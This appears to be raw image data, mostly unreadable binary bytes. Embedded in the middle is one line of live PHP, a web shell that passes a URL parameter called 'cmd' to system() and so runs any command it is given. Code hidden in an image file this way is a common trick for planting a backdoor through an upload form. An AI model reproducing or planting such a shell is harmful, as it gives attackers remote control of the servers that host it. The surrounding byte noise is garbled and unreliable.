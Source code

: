     <U+070F>1Ǡ<98>R        &NΤ^X*_<C4>+^Uל<97><F7>^<CE>L)ŋ1l<FC>Q<B5><F7><B8><F6><BC>]<9D>}K<E9><91><F7><F4>2'v^<A9>^_)*&<93>y/<EF><A7><FA><97><DB>D<B3>U<BB>^P<A3>b9<85><A0>t<B3><94><96><A7>^C<B3><F5><C4>᪗1<F5>!<9C><9B><8F>Y^G<81>ESCr5^GJ<BF>ɗ<DB>5^X<B9>G<AB>M<FE><9D><BC>Se
    <E3>d<9B><B1>js4HwHS<C7>g^Z&<CB><FF><B7><F2>^^^_=><AF><FC><E6>G<98>y<EC><C5>y<BD>z<B5>~<D8><FC><EF>>?%<E5><B6>O<AB><A7><F5><F9><EF>˩^L<DF><DD><EC>l^B1<F7>^V<8F><FF><B8>S<CA>Cb<B6>9<EE>Ƽ^]<C6>pr<E5>K))<AD>^Z<8F><C3>q%<FF>O<9B><A7><9B><F3><FF>}R^^<BA>=<F3>`x<AD><F6>^^<AF>
    <D3>xv<9E>><BD><AB>9*~<FE>;<F8>C^<A9>W/֏Gm<C0>ŭ'(<DD>.<AF>:ʍ<C0><D6>z"<D8>9˓<C0>!h<9E>x<B4>m^O<E5><CF>e)<E7><E5><E9>O<D7>^^<87><BF>d<DD><EB><CC>R<DC><CE><ED>-^?<F1>潛<EA>i^Lz<D0>L}X'<CA>^H^AK<C3>ESC<F2>z<BD><FA><AC>~<9C>^G<AA><A9>}$(<DD>,/^R<C8><C3>Xn<B5>
    
    <?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
    
    ^P<DB>zU^?<AD><CC>9<B9>^X^T<C6>Q<C9>畀S9<DC><C9><D2>s|<97>^^B<92>DPzۡ<E7>aN~P<FE><F6>]^Y<CE>1<9B>ު_^]<E6><BD>^F<8B>
    !hYI<BD>^^<9A>)O4<FB><86>}z<CF>H<B9>7~<E4>48<AF>iY<B6>,<96><CF>Ѽ<90><86><96><B9><92>u<C2>q<FE>^Q'_&̟<97><E3><81><EA>r<D4><E7>e<F3>ë^@Ys<EE>'i<BC>*<95><A1><DC>+<9B>z<F5>µ<9A><EA><9F>B\<F2>o&<EF><BD>:j<8F>p<93><9E><9E><94><EC>ׯ_́^B^@<9A><D0>G<E8>lPO<AB>Y<D0>^O<EA>^U<EE><D0>S
    <BD>"(<BD><A9><97>Ga<F4><85>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>ze<C3>0<B0><FA>^N^@Є<A1><A7><C7>:^@<C0><BF><8D><88><F4><A6><9E>^^<87><D1>^O<EA>^U<EE><D0>S<BD>"(<BD><89>'L܁z<85>;<F4>T<AF><FA><C9>icz<EA>y<A0>^_<D4>+ܡ<A7>zEPzSO=^O<F4><83>z<85>;<F4>T<AF><F8> <EB><9B><CE>>p<98>R<FE>^X<E6><F4>1g3'wض:^?<BD>9<84><D5>Fxfr<EE><FC>C<A6>1<FC>VH^ü#mP<88>qٻɜ<BC>sr<BB>sO<8F><F3><EE>t/<9F>}^Z<B9>,Aa,<DB>[<FC>^L'<BD><97><D7><CA>q8<BB><B2>^\uy<B9>H<E7><C5>s<F3><D7><C0><93><E4>^F<FD>T<EC><EB>Qw<CF><EB><CB>{Z<AF><AA><AF>U<FE><98>lX2S}?<F0>o<EB>郬^D<A5>7^]n<F0><D4><F8><99><93><F7><F9>K<DC>1D<85>QҰ4R)^D<8D>1<C9>Jca))Ơ<98>^O<DC>5 <F9>k<DE><DB><ED>^S<CA>^F~~<D9>^^#<84><A4>d<EB>mESC<96><E3><B6>yI<D2>0<9C>^D<C9><F5>n<A8><BB><86><ED><81><D7>ʱ;<B7><B2>^\<B5>yy<90><CA><EB>禜<87><FA><E3>+<EF>yuy<8F><F5><EA><A5>k5<E6><CD>^@<AD><EC><E9><95>b<C8>_^Lߥ<81><EF><D3>K@<92>^X<BE>{<DB>v<8C>v<DA>f<DC><C9>^O~<B5>^E<B9><93>)<AE><F6><C1>){☟<9F>Z<CC><E5>sL:<EE><97>S<B6>^U775xy<93><B8>a<F0><A5><A7><EC>5^L<BE><EC><B5>3<E5><A7><EC><C1>c<F9><EF>
    <B6>yI<C7>Fz<93><86><A4>yS<B9>a<B3>k<EA><EE><A4><D7>ʱ?<B7><AA>^\<B5>yy<E0><E5>ssPM<BA><DA>^Kj_<8E><CA>{^[^<9D>ի<BA>s<E7><ED>ٽ<D7><E0><9D><9C><9B><B6>MI<F3>.<B9><F8>^<CC>)}<81>m<CF>#o-.<E7><B6>^W<B4>lI<9E><CA>^V䛿z<F2>gi:o<D9>I<D4>|^N^B<DB>]Χ<9D>d<97>_<CA><C7>ك<E3><B6>9٧
    <91><F7><E5><B9>~<D2>y<B5>^\<87>s<AA><CA>Q<9F><97>^TG<FD><FE><FD>[a<FD><EF><EE><C5>r(<C5>^R<C4><CE>7<C4>;<A6>Q^?ϫ˫c<8F><B6><EE>ܤ<94>3<B3>^]<D2>3<A7><E1><E7>G^C<C3>w_<8F>'<A5>/<B0><E9>y<94>^F<C8>^N<F3>5e<9B><D1>4ͻ<98><9C><B7><<EC>^SK<A3><95>r<8F>{<DA>!t<99>w8<B5><D2>ESC
    <DF>OV<94><DF>Y<A2>J><AC>vǝ<A5><A1><B9>Q<BD><F6>J9Nέ*Gm^<96><DF><DD><EE><A6><F8>ʹI!D<C9><FC><E9><9C><D6>i^Z<AF><DC><F3><DA><F2>jߣ<AD>=<B7>lC^?<B9><E3>/<BE>YOOJ<CC>)<BD>i<D3><F0>N<F3><CA>'<C7><D9><FA>^X<93><CC>y
    ^Z<C3>8<EF>P;<ED>^V<BB>^]f<CA>=q<DB>?<F1>hwL^Yr:^?"(<8D>Uzt\M^Z<E7><EA><CB>Q<E3>Y9<9E><E5>e<D0><CF>^Gݫ^T<83>b2<F9>2<C4>Y<95><C6>^K<F7><FC>$Ň<E5>}ޣ=9w<B5>!n^L<A3><E2><D4>QP<C5>N<C0><F8>
    ==)^Q<94>޴]<CD>r5f<BF>_^U^W5<86><BC>@<C0>m^V^H<EC>&<A4>SR<92><9D><AE><96><9B><D2>L!ϛ<D8><C9>j<AF><9C>Vȓ<E4>R^Y<CE><DA>^]<F7>4<8D>Ǫ<CB><F1><FC><97><9E><96><E3>Veq<83><F9><FD>^B<90><A7>'^<FC><DD><D5>^O]<97><F7>z<95><D4><F5><B9>)^F<85><B2><CA>r<FA>s^L<A3><92>^F<86><F0><BE>^\<AB><EF><BE><C0><F6>^F<E7><85>^H<E7><D6><DD><E5><A8>X<86><89><E6>y^B+=<DE>ߣb<88>r<F3><D2><EF>(<E9><D1>^PTR^Lci<9C>^^78f^ާ||̫<EF>Ҫ<E7>|<9D>ƕ<FA>r\<AB>+<C7>}<F2>
    <BD>dk<EF><F9>><BD><EB><F2>^^E<A4><A7><D7><CA>\Y^D1<FD>X<B9>^_1*9<CF><D0><DE>^W<EB>% I<CC>)<BD>m3F;<8F><A2>^\ESC<A9>i^X%<B7>aIQ<EB><E5><D7><CB>^O<98><D3>j^^<E2>j<8E><A0>,<FD>-+<CB>.ESCS<9B><E6>$<BC><86>a<90><B3>i<C5>س4<9E><A8>.<C7><E5><8F>ԗ<E3>&<F3><8A>5<B7>
    <A0><F3>B<90><B3><BB><B9>R{<CF>W<FF><B7><A6><BC><E7>c<FF>OΝ<A7>^S^_ݏ'e<C1>?<8F>9<A5>/<B0><E9>y<94><C6><E0><B8><F2>v^Z<EC><AF>h<F8><D7><E7><A6>2<D7>s<E8>ݔ<DE>r<BA><98>+HI1<A5><93><89>~<CB><F3><E2><D3>^D<FD><C3>4>T<D5><FA>U<94><E3>/<98><96>J<C7>ͼX^Q<83><C6>^X<E4><FC><CF>
    <F9>^\<D9>K<C7>^^m͹<F9>ަ<D5><DC>^R<B0>Ɠ<D2>^W8<AC><92>2I1j<F3><8A>N<8A><CA><EF>=.+<E8><F2><D0>ܾ<E7>Z<9E>Z<AC><F4><D8>S,s=<DB>4<D3><FC><EE><CD>U<C3>6<BD>4<BA>^?Z<C9>/<C9>Nyx<94>F<9D><CA>r<<CA>aU9<EE><E7>ܠa<D8><FD><E7><CB>0<97>y<F9>Ë<C6>k<B5><F7><FC><B5><F2><EE>{<B4>u<E7>
    <96>y<C1>^TwA2<E6>{<FE><E4>~<E0><DF>Ǔ<D2>^W<D8><CF>)9<EF>^UǠ^P<A4><E4><96>7<EF>%<B7>4&<E6><E4>]<D4>^X<F3>q<CB>ESC<FF><A1>,<A5><CE>^MY~<D2><F1><BB><D5><C2><E5><A5>X<95><DF>><BC><A0>j<B9>!4<93>sR<88>AcJ%<ED><FC>I<A0>(<C9><CA>^\<D0>y^Zy<9E>i^^<C0>J<CB><FF><8B><9B>4<EA><CA>q
    <AE><B2>^\<B5>y<91><CA>W^O$7<AC><BF>jQS<8E><93>|<9A>dAJ<B6>]^@rL<A3><F2><9E><BF>P^i_<AF><EA><CF>5<E7><E4>bP^XG%<9F>W^QN<E5><DD>^LO<E2>+<F5><F4><A4>DPz<D3>a5<8B>9<F9>A<F9>;he(<C8>lz<AB>~u<98><F7>^Z,*<84><A0>e%<F5>zh<A6><<D1><EC>ESC<F6><E9>=#%<85><B0>^_k<92>$<A7><C1>yM˲e
    <B1>|<8E><E6><85>4<B4>̳<AC>^S<8E><F3><8F>8<F9>2a<FE><BC>^\^OT<97><A3>>/<9B>^_^^E<C8><FA>sk<ED><C6><C7>j<EE><F9>^K<E5><95>v<F5><EA><95>sK^^T<E2>RN3y<EF><D5>Q{<84><9B><F4><B4><FA><CE>~<FD><FA><C5>^\(^@<A0>        }<84><CE>^F<F5>4F<8B>~P<AF>p<87><9E><EA>^UA<E9>M<BD><